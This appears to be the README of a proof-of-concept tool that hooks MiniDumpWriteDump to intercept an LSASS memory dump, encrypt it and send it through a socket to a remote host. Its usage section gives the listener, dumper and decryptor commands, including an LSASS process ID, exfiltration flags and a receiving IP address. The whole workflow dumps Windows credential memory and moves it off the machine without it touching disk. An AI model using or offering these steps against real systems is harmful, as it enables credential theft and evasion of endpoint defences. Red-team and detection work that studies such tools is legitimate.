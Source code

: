 # MiniDumpWriteDumpPoC
MiniDumpWriteDump behavior modification hook

This is a function hook that allows to access the buffer generated by MiniDumpWriteDump before it gets to disk.

Once accessed, it will encrypt the buffer and send it through a socket to a given host. 


## Compilation

A full VS solution is provided. Just compile it. 


## Usage

First, set up the server to listen on the receiving host: 

```
python3 serv.py <PORT>

    python3 serv.py 1234
```


```
.\minidumppoc.exe <LSASS_PID> <WRITE_TO_FILE 0|1> <EXFIL 0|1> [<HOST> <PORT>] [<EXPORT_PATH>]

    minidump.exe 696 1 1 '192.168.1.10' 1234 "c:\test.dmp"
```

Once the whole file is received, close the server, and use the dummy decryptor: 

```
python3 dec.py woot.dmp woot_decrypted.dmp 0xb0
```


